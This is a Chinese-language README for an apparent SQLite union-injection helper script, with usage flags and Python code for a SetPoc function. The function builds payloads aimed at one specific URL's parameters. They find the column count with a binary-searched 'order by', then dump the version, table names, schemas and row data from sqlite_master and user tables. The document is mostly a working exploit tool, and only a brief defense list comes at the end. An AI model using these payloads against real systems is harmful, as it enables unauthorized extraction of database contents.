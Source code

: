 
Sqlite联合注入辅助脚本

0×01概述：

SQLite是一款轻型的数据库。sqlite存在一个叫SQLITE_MASTER的表，这与MySQL5.x的INFORMATION_SCHEMA表类似。sqlite_master 表中保存了数据库中所有表的信息，该表中比较有用的字段有“name,sql”，name字段存放的是表名，sql字段存放的是表结构。可以通过内置函数sqlite_version()获取版本信息，和其他数据库一样，通过“order by”判断长度，该数据库的注释符和ORACLE数据库一样，都是--。

0×02使用参数：
  
  python sqlite.py -u url --tables＃获取所有表名
  
  python sqlite.py -u url --columns＃获取所有表结构，从而获取字段值
  
  python sqlite.py -u url -T table_name -C column_name -d＃获取指定字段内容

0×03：信息获取

通过自定义函数SetPoc，根据功能需求，设置各发包的PoC，比如猜测“order by”长度，获取版本信息，获取表名，获取表中字段名，以及字段的具体内容。
首先判断注入类型，是整型（123和555 = 555--），字符型（123'和555 = 555--），还是搜索型（123％'和555 = 555--），再通过二分法判断“order by”长度，如果一开始插入order by mid（尝试的长度）的包返回状态和正常的原始包返回状态不相等，则说明mid过大，如果原始正常包返回状态与插入的order by mid和order by mid + 1的包返回状态相等，则说明mid过小，如果原始正常包返回状态与插入order by mid的返回包状态相等，但与order by mid + 1的包返回状态不相等，则成功获取order by长度。

def SetPoc(self, action):

        # 获取order by 数目的poc
        if action == "orderby":
            poc0 = "?callback=jQuery21005291906092260772_1522659952161&mainQ=四同" \
                   "&q=&pageIndex=1&searchname=&_=1522659952172"
            poc_start = "?callback=jQuery21005291906092260772_1522659952161&mainQ=四同%') "
            poc_end = "--&q=&pageIndex=1&searchname=&_=1522659952172"
            response0 = SendData(target, poc0)
            min = 0
            max = self.OrderBy
            middle = (max+min) / 2
            while self.OrderBy > 0:
                ordpoc1 = (poc_start + "order by {0}" + poc_end).format(middle)
                ordpoc2 = (poc_start + "order by {0}" + poc_end).format(middle + 1)
                response1 = SendData(target, ordpoc1)
                response2 = SendData(target, ordpoc2)
                if response0.status_code != response1.status_code:
                    max = middle
                    middle = (min+max) / 2
                else:
                    if response1.status_code == response2.status_code:
                        
                        if response1.status_code == 200:
                            min = middle
                            middle = (min+max) / 2
                        else:
                            max = middle
                            middle = (min+max) / 2
                    else:
                        self.OrderBy = middle
                        print ("》Order By number is %s" % self.OrderBy)
                        break   


通过调用count(1)可获取数据库中表的总数，通过查询系统表SQLITE_MASTER中的name字段，可获取数据库中所有表名，这和MySQL数据库中系统表INFORMATION_SCHEMA中的“table_name”字段类似。通过limit关键字指定获取信息的开始位置和数量，比如limit 0,1，则是从第一条开始，并且只获取一条数据

        # 获取表数量的poc
        elif action == "tabnum":
            tabnumpoc_start = "?callback=jQuery21005291906092260772_1522659952161&mainQ=四同%') " \
                          "and 1=2 UNION SELECT null,'<xxoo>'||count(1)||'</xxoo>'"
            tabnumpoc_end = " from sqlite_master--&q=&pageIndex=1&searchname=&_=1522659952172"
            tabnumpoc = tabnumpoc_start + self.poc_mid + tabnumpoc_end
            return tabnumpoc


通过上步获取的order by长度，再调用内置函数sqlite_version()，获取版本信息，poc类似％'  and 1 = 2 UNION SELECT null,sqlite_version() ，Sqlite数据库的字符型、搜索类型注入，和Oracle数据库一样，可以通过使用null进行注入。这里将发送包分成三部分进行拼接，第一部分是类似123％' and 1 = 2 union select null,sqlite_vetsion()，这部分将根据要查询的信息进行变化，如查询所有表名，则使用123％' and 1 = 2 union select null,name；第二部分则根据前面获取的order by 长度，补齐缺少的null，第三部分则根据要查询条件进行修改

        # 获取版本信息的poc
        elif action == "version":
            verpoc_start = "?callback=jQuery21005291906092260772_1522659952161&mainQ=四同%') " \
                           "and 1=2 UNION SELECT null,'<xxoo>'||sqlite_version()||'</xxoo>'"
            verpoc_end = " from sqlite_master--&q=&pageIndex=1&searchname=&_=1522659952172"
            order_num = self.OrderBy
            while order_num > 2:
                self.poc_mid = self.poc_mid + ",null"
                order_num = order_num - 1
            verpoc = verpoc_start + self.poc_mid + verpoc_end
            #print self.poc_mid
            return verpoc
            
            
![image](https://github.com/silience/sql/blob/master/image/tables.png)

sqlite_master表和mysql数据库中系统表information_schema不一样的是，sqlite_master不存在类似“column_name”的字段，但是她有一个sql字段，该字段保存了各个表的结构，包括表名，字段名和类型。因此可以通过查询sql字段获取各个表的列名。

        # 获取所有表结构的poc
        elif action == "columns":
            columnspoc_start = "?callback=jQuery21005291906092260772_1522659952161&mainQ=四同%') " \
                   "and 1=2 UNION SELECT null,'<xxoo>'||sql||'</xxoo>'"
            columnspoc_end = " from sqlite_master limit 0,{0}--&q=&pageIndex=1&searchname=&_=1522659952172".format(self.table_num)
            columnspoc = columnspoc_start + self.poc_mid + columnspoc_end
            return columnspoc
            
![image](https://github.com/silience/sql/blob/master/image/columns.png)

通过前面获取的表名和列名，再获取具体内容，类似的poc为123％' and 1 = 2 UNION SELECT null,column_name,null from table_name--。

        # 获取指定表数据条数的poc
        elif action == "datanum":
            datanumpoc_start = "?callback=jQuery21005291906092260772_1522659952161&mainQ=四同%') " \
                   "and 1=2 UNION SELECT null,'<xxoo>'||count(1)||'</xxoo>'"
            datanumpoc_end = " from {0}--&q=&pageIndex=1&searchname=&_=1522659952172".format(table_name)
            datanumpoc = datanumpoc_start + self.poc_mid + datanumpoc_end
            return datanumpoc

        # 获取具体数据的poc
        elif action == "data":
            datapoc_start = "?callback=jQuery21005291906092260772_1522659952161&mainQ=四同%') " \
                "and 1=2 UNION SELECT null,'<xxoo>'||{0}||'</xxoo>'".format(column_name)
            datapoc_end = " from {0} limit 0,{1}--&q=&pageIndex=1&searchname=&_=1522659952172".format(table_name, self.column_num)
            datapoc = datapoc_start + self.poc_mid + datapoc_end
            return datapoc
            
![image](https://github.com/silience/sql/blob/master/image/data.png)

0×04：SQL注入防御

1，使用白名单或者黑名单进行全局过滤，防止二次注入

2，强制使用预编译，参数化语句，如JSP的PreparedStatement的setString方法等

3，前端JS过滤，如调用escape方法

4，借助第三方安全防御软件，如WAF
